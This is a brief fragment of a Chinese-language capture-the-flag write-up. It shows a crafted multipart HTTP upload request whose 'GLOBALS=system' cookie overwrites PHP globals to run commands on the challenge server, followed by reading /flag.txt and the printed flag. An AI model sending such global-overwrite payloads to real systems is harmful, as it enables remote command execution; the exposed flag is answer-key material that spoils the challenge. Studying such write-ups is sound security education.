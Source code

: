 构造数据包：

```
POST /index.php HTTP/1.1
Host: wildwildweb.fluxfingers.net:1425
Content-Length: 1325
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryePkpFF7tjBAqx29L
Cookie: GLOBALS=system

------WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Disposition: form-data; name="ls"; filename="hello.o"
Content-Type: ls

<file data>
------WebKitFormBoundaryePkpFF7tjBAqx29L———

```

最后cat /flag.txt即可。

```
flag{backdoor_business_is_hard,_fella}

```